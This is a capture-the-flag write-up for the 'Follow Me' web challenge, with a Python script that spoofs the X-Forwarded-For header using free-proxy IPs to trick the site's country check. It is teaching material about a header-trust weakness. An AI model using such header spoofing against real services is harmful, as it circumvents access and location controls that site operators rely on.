

# WEB 150 - Follow Me

This challenge is a worldmap where you have to follow a hacker in random country.


To change the origin country of the request, i use the mozilla firefox add-on "AnonymoX" and saw that the message "you are in the wrong country (fr)" changed by "you are in wrong country (us)". 
So i tried to send a request by adding the header "X-Forwarded-For" and the ip address of a free proxy in the pays where the hacker is.
And thats worked !

So i wrote a python script that take 3 commands in input :
  - country : print the country where the hacker is and the number of country to before finding him
  - mv <*@ip_proxy*> : Add the "X-Forwarded-For" header with the IP specified.
  - restart : Some country don't have free proxy available
  
````python

import requests

def parse_pays(page):
	page = page.split("\n")
	to_print = ""
	for l in page:
		if '<div class="row"><div class="box" style=' in l:	
			to_print = l.split("<span>")[1]
			to_print = to_print.split('</span>')[0]
			print("You have to visit : %s " % (to_print))

def parse_visited(page):
	page = page.split("\n")
	for l in page:
		if 'Visited' in l:
			print(l)
			return l

def parse_flag(page):
	page = page.split("\n")
	for l in page:
		if 'flag' in l:
			print(l)

def parse_iswrong(page):
	page = page.split('\n')
	for l in page:
		if 'You are in the wrong country' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)
def parse_newcountry(page):
	page = page.split("\n")
	for l in page:
		if 'You just missed the hacker, he moved to' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)

cmd = ""
s = requests.Session()
url = "https://followme.stillhackinganyway.nl/"
r = s.get(url)
while cmd != "q":
	cmd = raw_input("$SHA: ")
	if cmd == "country":
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)	
	if "mv" in cmd:
		ip = cmd.split(" ")[1]	
		header = { 'X-Forwarded-For': '%s' % (ip)}
		r = s.get(url, headers=header)
		parse_newcountry(r.text)
		nb = parse_visited(r.text)
		if "12/12" in nb:
			parse_flag(r.text)
	if cmd == "restart":
		r = s.get("https://followme.stillhackinganyway.nl?restart=1")
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)
	
```

Then i was able to send request to the site from any country in the world where a free proxy is available.
Below the screenshot of the script running : 


